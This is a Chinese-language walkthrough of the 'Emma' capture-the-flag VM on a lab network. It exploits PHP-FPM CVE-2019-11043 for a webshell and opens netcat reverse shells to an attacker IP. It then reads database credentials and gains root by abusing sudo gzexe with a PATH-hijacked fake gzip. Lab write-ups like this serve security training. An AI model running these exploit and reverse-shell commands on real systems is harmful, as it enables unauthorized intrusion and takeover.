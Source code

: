 # Emma

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-04

✔️ MD5 // 43b7626e2d43405be800ca0c0abb30b6

☠ Root // 50

💀 User // 55

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:4c:af:92:cc:bb:99:59:d7:2f:1b:99:fb:f1:7c:f0 (RSA)
|   256 ba:0d:85:69:43:86:c1:91:7c:db:2a:1e:34:ab:68:1e (ECDSA)
|_  256 a1:ac:2c:ce:f4:07:da:96:12:74:d1:54:9e:f7:09:04 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

## web 服务

尝试直接目录爆破

```plaintext
[10:46:34] 200 -    0B  - /index.php
[10:46:34] 200 -    0B  - /index.php/login/
[10:46:43] 200 -   58KB - /phpinfo.php
[10:46:47] 200 -   15B  - /robots.txt
```

访问 `/robots.txt` 得到

```plaintext
itwasonlyakiss
```

访问 `/phpinfo.php`，得到以下版本信息

```plaintext
PHP Version 7.1.33dev
```

根据版本信息进行查找，可以定位到这个漏洞

```plaintext
CVE-2019-11043
```

### 漏洞利用

采用 [neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)

```bash
randark@developer:~/code/VNCTF-OnlyLocalSql$ docker run --rm ypereirareis/cve-2019-11043 http://192.168.56.113/index.php
2024/02/18 05:51:03 Base status code is 200
2024/02/18 05:51:05 Status code 502 for qsl=1765, adding as a candidate
2024/02/18 05:51:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2024/02/18 05:52:15 Attack params found: --qsl 1755 --pisos 22 --skip-detect
2024/02/18 05:52:15 Trying to set "session.auto_start=0"...
2024/02/18 05:52:18 Detect() returned attack params: --qsl 1755 --pisos 22 --skip-detect <-- REMEMBER THIS
2024/02/18 05:52:18 Performing attack using php.ini settings...
2024/02/18 05:52:20 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/02/18 05:52:20 Trying to cleanup /tmp/a...
2024/02/18 05:52:20 Done!
```

可以看到 webshell 被成功植入，尝试利用

```bash
randark@developer:~/code/VNCTF-OnlyLocalSql$ curl http://192.168.56.113/index.php?a=/bin/bash+-c+whoami
www-data
```

## User - www-data

```bash
# http://192.168.56.113/index.php?a=/bin/sh+-c+%27id;nc%20-c%20bash%20192.168.56.102%209999%27&\
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[13:55:11] Welcome to pwncat 🐈!
[13:57:01] received connection from 192.168.56.113:49336
[13:57:01] 192.168.56.113:49336: registered new host w/ db
(local) pwncat$ back
(remote) www-data@emma:/var/www/html$ whoami
www-data
```

### 数据库访问

采用 web 服务 `/robots.txt` 返回的 `itwasonlyakiss` 作为密码

```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+

MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+

MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f4dcc3b5aa765d61d8327deb882cf80 |
+----+------+----------------------------------+
```

得到

```plaintext
emma:5f4dcc3b5aa765d61d8327deb882cf80
```

## User - emma

```bash
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs emma@192.168.56.113
[14:54:09] Welcome to pwncat 🐈!
Password: ********************************
[14:54:12] 192.168.56.113:22: normalizing shell path
           192.168.56.113:22: registered new host w/ db
(local) pwncat$ back
(remote) emma@emma:/home/emma$ whoami
emma
```

### flag - user

```bash
(remote) emma@emma:/home/emma$ cat user.txt
youdontknowme
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
```

同时用户目录下存在 suid 程序

```plaintext title="ls -lah"
(remote) emma@emma:/home/emma$ ls -lah
total 68K
drwxr-xr-x 4 emma emma 4.0K Feb 18 03:48 .
drwxr-xr-x 3 root root 4.0K Feb  4  2021 ..
-rw------- 1 emma emma    5 Feb 18 03:48 .bash_history
-rw-r--r-- 1 emma emma  220 Feb  4  2021 .bash_logout
-rw-r--r-- 1 emma emma 3.5K Feb  4  2021 .bashrc
-rwx------ 1 emma emma 1.9K Feb  4  2021 flag.sh
drwx------ 3 emma emma 4.0K Feb 18 01:54 .gnupg
drwxr-xr-x 3 emma emma 4.0K Feb  4  2021 .local
-rw-r--r-- 1 emma emma  807 Feb  4  2021 .profile
-rw------- 1 emma emma   14 Feb  4  2021 user.txt
-rwsr-s--- 1 root emma  17K Feb  4  2021 who
-rw-r--r-- 1 emma emma  185 Feb  4  2021 who.c
-rw------- 1 emma emma   50 Feb  4  2021 .Xauthority
```

查看`who`程序的源码

```c title="who.c"
#include <stdio.h>
#include <stdlib.h>
void main(){
    setuid(0);
    setgid(0);
    printf("Im \n");
    system("/bin/id");
    setuid(1000);
    setgid(1000);
    printf("But now Im \n");
    system("/bin/id");
}
```

由于 `gzexe` 压缩程序后，再运行被压缩的程序，就会调用一次 `gzip`，所以可以先对 `id` 进行压缩操作，然后将恶意载荷植入 `unzip` 中，就可以实现提权

## User - root

```bash
emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/bash 192.168.56.102 7777" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
```

### flag - root

```plaintext
itsmeimshe
```
